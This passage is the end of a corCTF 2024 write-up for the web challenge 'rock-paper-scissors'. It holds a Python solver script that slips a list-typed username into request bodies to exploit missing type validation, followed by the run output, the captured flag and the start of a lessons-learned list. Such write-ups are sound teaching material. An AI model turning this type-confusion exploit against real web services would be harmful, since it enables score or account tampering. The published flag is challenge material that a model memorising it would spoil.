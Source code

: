 ```python
            'username': [
                self.DUMMY_USERNAME,
                self.SET_TO_SCORE,
                self.FLAG_USERNAME
            ]
        }
        self.createNewUsername(bodyData)
        self.playGame()

        bodyData = { 'username': self.FLAG_USERNAME }
        self.createNewUsername(bodyData)

        flag = self.getFlag()
        if not flag:
            print('[-] We couldn\'t get the flag!')
            return

        print(f'[+] We got the flag: {flag}')

if __name__ == '__main__':
    baseUrl = 'https://rock-paper-scissors-c0a55f84c298d61f.be.ax'
    solver = Solver(baseUrl)

    solver.solve()
```

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2024/web/rock-paper-scissors)-[2024.07.29|20:08:48(HKT)]
└> python3 solve.py
[*] Creating new username with body data: {'username': ['dummy_username', 1337, 'flag_username']}
[*] Losing the game intentionally...
[*] Creating new username with body data: {'username': 'flag_username'}
[*] Getting the flag...
[+] We got the flag: corctf{lizard_spock!_a8cd3ad8ee2cde42}
```

- **Flag: `corctf{lizard_spock!_a8cd3ad8ee2cde42}`**

## Conclusion

What we've learned:

1. Missing type validation